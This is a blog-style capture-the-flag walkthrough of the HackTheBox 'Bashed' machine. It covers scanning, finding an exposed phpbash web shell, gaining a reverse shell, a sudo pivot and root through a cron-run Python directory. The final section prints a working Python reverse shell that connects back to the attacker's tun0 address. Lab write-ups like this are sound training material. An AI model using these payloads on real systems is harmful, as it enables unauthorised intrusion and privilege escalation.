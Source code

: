 ```yaml
---
layout: single
title: HackTheBox - Bashed Writeup
permalink: /hackthebox-bashed-writeup/
excerpt: "Bashed is an easy machine from Hack the Box. This is a really old machine. This machine focuses on file misconfiguration and the dangerous let the web shell out in the open. Like I say, this is an old machine, we have a bunch possibility to learn such as kernel exploit, etc."
classes: wide
header:
  teaser: "/assets/images/htb/bashed/Bashed.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
  - writeup
tags:
  - python
  - gobuster
  - crontab
  - file-misconfiguration
---
```


![hackthebox bashed title card](/assets/images/htb/bashed/Bashed.png)

# <font color="#9bffc8">Nmap</font>

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

## result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

# <font color="#9bffc8">Http</font>

Let's take a look at the website. 

![1](/assets/images/htb/bashed/website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](/assets/images/htb/bashed/upload_dir.png)

# <font color="#9bffc8">Gobuster</font>

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](/assets/images/htb/bashed/gobuster.png)

# <font color="#9bffc8">/dev</font>

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](/assets/images/htb/bashed/dev.png)

![1](/assets/images/htb/bashed/web_shell.png)

# <font color="#9bffc8">Reverse Shell</font>

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](/assets/images/htb/bashed/b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](/assets/images/htb/bashed/bs64_webshell.png)

![1](/assets/images/htb/bashed/got_the_shell.png)

# <font color="#9bffc8">Upgrade shell using python</font>

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

# <font color="#9bffc8">User scriptmanager</font>

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](/assets/images/htb/bashed/scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](/assets/images/htb/bashed/change_2_scriptmanager.png)

# <font color="#9bffc8">/scripts</font>

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](/assets/images/htb/bashed/script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](/assets/images/htb/bashed/contents.png)

# <font color="#9bffc8">Root Shell</font>

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](/assets/images/htb/bashed/petai_root.png)
